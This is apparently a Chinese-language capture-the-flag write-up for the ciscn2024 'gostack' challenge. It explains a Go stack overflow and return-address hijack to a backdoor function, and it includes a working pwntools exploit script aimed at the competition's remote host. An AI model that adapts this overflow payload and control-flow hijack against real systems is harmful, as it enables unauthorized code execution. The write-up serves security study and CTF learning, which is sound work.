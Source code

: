 ```yaml
---
title: ciscn2024 - gostack 
date: 2024/5/23 00:47:00
tags:
    - go
    - rop
thumbnail: /assets/ciscn2024/bypass.png
excerpt: 通过栈溢出控制返回地址，利用Go程序的漏洞成功执行命令获取flag。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |yes   |
|go    |1.18.1|

## 解题思路

一道简单的go的栈溢出题

经测试，发现输入0x100个字符后就会报错非法内存访问，调试器跟一下，
发现原来`rbp - 0xc8`的位置上是一个go指针，随便填一个合法地址继续溢出写，
会报什么超出限制，发现`rbp - 0xc0`的位置上是一个较小的值，填0后继续溢出写，
就可以成功控制返回地址了

实际上错误都是由`Fprintf`引发的，第一次解引用了错误的地址，第二次覆盖了一个过大的`len`，
如图所示

![bypass](/assets/ciscn2024/bypass.png)

网上很多wp写rop的链子，很怪，程序不是提供了后门吗。。直接把返回地址修改成`&main.main.func2`，
就可以任意执行一个shell命令，输入`cat flag`就可以获得flag

![success](/assets/ciscn2024/success.png)
## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './gostack'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b *0x4a09d8\nb *0x4a0a88\nc')
    else:
        sh = remote('8.147.132.179', 39522)
    backdoor = 0x4a05a0

    sh.sendline(b'0'*0x100 + p64(0xc000012040) + p64(0) + b'0'*0xc0 +
                p64(backdoor))

    sh.interactive()
```
